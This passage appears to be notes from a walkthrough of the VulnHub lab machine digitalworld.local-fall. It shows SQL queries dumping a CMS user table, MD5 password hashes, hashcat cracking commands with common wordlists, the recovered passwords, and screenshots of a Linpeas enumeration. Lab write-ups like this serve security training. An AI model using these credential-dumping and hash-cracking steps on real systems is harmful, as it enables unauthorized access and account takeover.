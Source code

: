 ```
P@ssw0rdINSANITY
```

```
use datebeses;
SHOW TABLES;
SELECT * FROM cms_users;
```

```
qiu:bc8b9059c13582d649d3d9e48c16d67f
patrick:6aea70cc6a678f0f83a82e1c753d7764
```

# hashcat
```bash
hashcat -m 0 hash /usr/share/wordlists/rockyou.txt 
```
![digitalworldlocal-fall](https://raw.githubusercontent.com/GooseGusevich/vulnhub/refs/heads/main/digitalworldlocal-fall/screenshots/20250518074258.png)

```bash
hashcat -h | grep "MD5"
hashcat -m 0 hash /usr/share/wordlists/seclists/Passwords/*.txt  
PASS
cmsimple
admin123
```



## Linpeas                                                                                                   
___
![digitalworldlocal-fall](https://raw.githubusercontent.com/GooseGusevich/vulnhub/refs/heads/main/digitalworldlocal-fall/screenshots/20250518075841.png)
![digitalworldlocal-fall](https://raw.githubusercontent.com/GooseGusevich/vulnhub/refs/heads/main/digitalworldlocal-fall/screenshots/20250518080104.png)
___
![digitalworldlocal-fall](https://raw.githubusercontent.com/GooseGusevich/vulnhub/refs/heads/main/digitalworldlocal-fall/screenshots/20250518075826.png)